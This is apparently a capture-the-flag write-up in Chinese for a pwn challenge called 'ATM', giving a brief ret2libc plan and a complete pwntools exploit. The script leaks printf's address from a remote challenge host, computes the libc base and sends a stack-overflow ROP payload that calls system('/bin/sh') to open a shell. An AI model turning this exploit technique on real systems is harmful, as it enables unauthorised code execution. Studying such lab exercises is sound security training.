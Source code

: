 
## ATM
### 思路

栈题，先用函数3扩展能写的字节数，在执行函数5，最后用函数4返回

printf函数地址都给了，直接ret2libc

### exp

```python
from pwn import *

context.log_level = 'debug'

#p = process("./app")
p = remote("node2.anna.nssctf.cn",28166)
elf = ELF("./app")

p.recvuntil(b'password:')
p.sendline(b'aaaaaa')

p.recvuntil(b'4.Exit\n')
p.sendline(b'3')

p.recvuntil(b'deposit:')
p.send(b'1111111')

p.recvuntil(b'4.Exit\n')
p.sendline(b'5')

p.recvuntil(b'gift:')
printf_addr = int(p.recv(18),16)

printf_offset = 0x064770
system_offset = 0x054d60
binsh_offset = 0x1dc698

libc_base = printf_addr - printf_offset
system_addr = libc_base + system_offset
binsh = libc_base + binsh_offset

log.success("libc_base: " + hex(libc_base) )

pop_rdi = 0x401233
ret = 0x401234

payload = b'a'*360 + p64(pop_rdi) + p64(binsh)+ p64(ret) + p64(system_addr)  
p.sendline(payload)

p.recvuntil(b'4.Exit\n')
p.sendline(b'4')

p.interactive()
```